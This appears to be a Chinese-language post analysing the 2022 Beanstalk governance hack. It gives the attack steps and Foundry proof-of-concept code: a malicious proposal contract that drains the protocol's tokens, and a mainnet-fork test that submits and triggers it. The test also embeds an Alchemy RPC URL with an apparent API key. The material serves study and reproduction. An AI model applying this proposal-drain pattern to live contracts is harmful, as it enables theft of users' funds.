


### The Beanstalk Hack 

2022年4月，Beanstalk被治理攻击，损失了181w$。并且，黑客捐赠了25万给了乌克兰战争基金地址。

起因是治理协议中含有`emergencyCommit`紧急执行函数，周期为一天，当有2/3的赞成票时即可立即执行，如下图。



首先，黑客进行了恶意提案，提案内容为偷走合约中所有的钱，下图标出了恶意提案地址和提案执行签名。



而再在治理协议中，投票权重由向Beanstalk协议的Diamond contract的捐赠决定。于是在一天之后，黑客发起了攻击。
黑客的主要攻击流程为：

- 通过闪电贷获得DAI，USDT，USDC
- 再次通过uniswap，sushiswap 闪电贷得到BEAN 和 LUSD
- 使用DAI，USDT，USDC换取 3CRV
- 再将3CRV，LUSD，BEAN换取BEAN3CRV-f，BEANLUSD-f
- 将BEAN3CRV-f，BEANLUSD-f存入Diamond 中
- **对BIP18恶意提案进行投票**
- 执行恶意提案，将BEAN3CRV-f，BEANLUSD-f，uni-v2发送给黑客合约
- 通过兑换将BEAN3CRV-f，BEANLUSD-f换取USDT，USDC，DAI
- burn uni-v2换取ETH和BEAN
- 偿还闪电贷，再将多余的代币换为ETH，黑客获利
- *黑客还发送了25000USDT给了乌克兰战争基金地址*

## 复现

### 恶意提案
```solididy
// SPDX-License-Identifier: MIT
pragma solidity 0.8.10;

import "forge-std/Test.sol";
import {IERC20} from "../interfaces/IERC20.sol";

contract BIP18 is Test {
    address constant BEAN = address(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db);
    address constant BEAN_STALK = address(0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5);
    address constant BEANCRV_F =
        address(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD);
    address constant BEANLUSD_F =
        address(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D);
    address constant PROPOSER =
        address(0x1c5dCdd006EA78a7E4783f9e6021C32935a10fb4);
    address constant UNI_V2_BEAN_LP =
        address(0x87898263B6C5BABe34b4ec53F22d98430b91e371);
    address immutable EXPLOIT_CONTRACT;

    constructor(address _exploitAddr) {
        EXPLOIT_CONTRACT = _exploitAddr;
    }

    function init() external {
        console.log("exploit contract address: ", EXPLOIT_CONTRACT);
        IERC20(BEAN).transfer(EXPLOIT_CONTRACT, IERC20(BEAN).balanceOf(BEAN_STALK));
        IERC20(UNI_V2_BEAN_LP).transfer(EXPLOIT_CONTRACT, IERC20(UNI_V2_BEAN_LP).balanceOf(BEAN_STALK));
        IERC20(BEANCRV_F).transfer(EXPLOIT_CONTRACT, IERC20(BEANCRV_F).balanceOf(BEAN_STALK));
        IERC20(BEANLUSD_F).transfer(EXPLOIT_CONTRACT, IERC20(BEANLUSD_F).balanceOf(BEAN_STALK));
        // 偷走所有tokens & LP tokens
    }
}
```

### 恶意提案执行

```solidity
pragma solidity 0.8.10;

import "../src/BIP18.sol";
import "../src/attack.sol";
import "forge-std/Test.sol";
import "../interfaces/IUniswapV2Router.sol";

contract BeanExp is Test{
    IBeanStalk constant BEAN_STALK = IBeanStalk(0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5);
    address constant BEAN = address(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db);
    IUniswapV2Router constant uniswapv2 = IUniswapV2Router(payable(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D));
    string  url = "https://eth-mainnet.g.alchemy.com/v2/qb4zUY4FDtmZMhaAEHblyllY9gc1nj2S";
    uint256 forkId;
    BIP18 bip18;
    BeanExploit beanexp;
    function setUp() external {
        // 恶意提案高度  14595906 
        // 攻击开始高度  14602789
        forkId = vm.createFork(url, 14595905);
        vm.selectFork(forkId);
        }

    function testexp() public{
        address[] memory path = new address[](2);
        path[0] = uniswapv2.WETH();
        path[1] = BEAN;
        uniswapv2.swapExactETHForTokens{value: 75 ether}(
            0,
            path,
            address(this),
            block.timestamp + 120
        );
        console.log(
            "swap ETH -> BEAN , Bean balance of attacker:",
            IERC20(BEAN).balanceOf(address(this))/10**6
        );
        
        IERC20(BEAN).approve(address(BEAN_STALK), type(uint256).max);
        BEAN_STALK.depositBeans(IERC20(BEAN).balanceOf(address(this)));
        beanexp = new BeanExploit();
        bip18 = new BIP18(address(beanexp));
        IDiamondCut.FacetCut[] memory _cut = new IDiamondCut.FacetCut[](0);
        BEAN_STALK.propose(_cut, address(bip18), abi.encodeWithSignature("init()"), 3);
        console.log("Successfully proposed: ", address(bip18));

        vm.warp(block.timestamp + 1 days);
        beanexp.exploit();
    }
    
}

```

这里使用了forge的warp cheatcode，可以将timpstamp设置到一天之后，模拟真实场景。

Expolit合约的代码就是一些闪电贷的Callback，投票并且执行提案，最后将一些token swap回ETH，这里不再赘述。

